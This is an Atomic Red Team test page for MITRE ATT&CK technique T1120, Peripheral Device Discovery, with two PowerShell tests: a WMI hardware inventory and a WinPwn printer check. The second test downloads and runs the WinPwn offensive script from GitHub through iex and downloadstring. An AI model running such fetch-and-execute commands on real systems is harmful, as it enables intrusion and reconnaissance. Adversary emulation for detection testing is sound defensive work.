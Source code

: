# T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system. Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
